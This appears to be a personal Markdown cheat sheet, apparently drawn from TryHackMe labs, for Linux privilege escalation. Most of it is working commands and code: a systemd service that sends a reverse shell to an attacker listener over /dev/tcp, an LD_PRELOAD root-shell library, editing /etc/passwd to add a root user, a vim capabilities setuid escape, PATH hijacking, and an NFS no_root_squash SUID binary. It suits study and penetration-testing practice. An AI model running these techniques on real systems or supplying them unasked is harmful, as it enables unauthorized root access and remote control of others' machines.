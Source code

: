 #### <u>Basics</u>
##### Enumeration
**Distribution version**
```shell
cat /etc/issue
```

**Linux version**
```shell
cat /proc/version
OR
uname -a
```

##### Make password for /etc/shadow
```shell
mkpasswd -m sha-512 [newpassword]
```
Replace the password in /etc/shadow or in /etc/passwd after the first `:` replacing the `x`
<small>Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.</small>
#### <u>Compiling C</u>
```shell
gcc [cve.c] -o [binary]
```
#### <u>Find SUID/GUID files</u>
```shell
find / -type f -perm -[u|g]=s -ls 2>/dev/null
OR
find / -type f -perm -04000 -ls 2>/dev/null
```
##### Possible scenarios
###### **/bin/systemctl** [source](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)
Create a service `root.service` with a reverse shell in it:
```shell
[Unit]
Description=rooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -id > & /dev/tcp/[LHOST]/[LPORT] 0>&1'

[Install]
WantedBy=multi-user.target
```
Then setup the listener and start de service
```shell
/bin/systemctl enable [path/to/service]
/bin/systemctl start root
```
#### <u>Exploit writable /etc/passwd</u>
Create a password
```bash
openssl passwd -1 -salt [salt] [password]
```

In /etc/passwd, put `[user]:[hashed passwd]:0:0:root:/root:/bin/bash` to create a superuser

`su [superuser]` to connect on it
#### <u>Sudo privileges</u>
```shell
sudo -l
```

###### LD_PRELOAD
![[gGstS69.png]]
If LD_PRELOAD is enabled, write the following `shell.c` file
```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
Then compile in `.so`:
```shell
gcc -pfIC -shared -o shell.so shell.c -nostartfiles
```

Then use the sudo with an available NOPASSWD binary
```shell
sudo LD_PRELOAD=/tmp/shell.so find
```

#### <u>Environment variables</u>
If `sudo -l` hash some env vars, let's try [this](https://tryhackme.com/r/room/linuxprivesc#title-7)
#### <u>Shell through vi</u>
1. Start vi
2. press `:`
3. type `shell` and enter
4. here is the shell

#### <u>Get bash version</u>
If the version is <4.2-048 or 4.4, go [here](https://tryhackme.com/r/room/linuxprivesc#title-14)
```shell
/bin/bash --version
```
#### <u>Crontab</u>
```shell
cat /etc/crontab
```

Verify that the script has `+x` permission

#### <u>PATH</u>
If there is a SUID binary executed as root, figure out what command it does and create a new script to execute it before via
```shell
export PATH=/tmp:$PATH
```
The new script should be in /tmp, obviously. Don't forget the `chmod +x [script]`

#### <u>UDF Attack</u>
[Sqlmap libraries](https://github.com/sqlmapproject/sqlmap/tree/master/data/udf)
##### Mysql
If we are on root user in mysql, we may be able to do something

**Connect by terminal**
```shell
mysql -u root
```

**Get current user (in case of SQLi)**
```sql
SELECT current_user();
```

**[Raptor UDF exploit](https://tryhackme.com/r/room/linuxprivesc#title-2)**
[Medium](https://rootrecipe.medium.com/mysql-to-system-root-ad8edc305d2b): Can't get it to work properly atm



#### <u>Capabilities</u>
Capabilities gives the ability to change the SUID to 0 (root) through a "capable" binary
**List capabilities**
```shell
getcap -r / 2>/dev/null
```

![[Screenshot_2024-07-06_12-36-56.png]]

```shell
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh","sh","-c", "reset; exec sh")'
```
`-c` is for executing shell command


#### <u>Python shell</u>
```python
import subprocess
print(subprocess.run("ls /root", shell=True, capture_output=True, text=True).stdout)
```


#### <u>NFS</u>
NFS (Network File Sharing) configuration file is on
```shell
cat /etc/exports
```

If there is `no_root_squash`, we can make **root files** on the mounted directory and the root owner **will be replicated** on the target directory. Then we just have to set the **SUID bit** and execute the binary as root on the target's machine

**Everything should be done as root on my machine**

**Show mountable directory**
<small>Already shown in /etc/exports</small>
```shell
showmount -e [target]
```

**Mount the directory**
```Shell
sudo mount -o rw [target]:[directory] /tmp/[location]
```

**Create nfs.c**
```c
int main(){
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

**Compile the nfs.c**
```shell
sudo gcc --static nfs.c -o nfs
```

**Set the SUID bit**
```shell
sudo chmod +s nfs
```

**Finally, execute the ./nfs on the target**

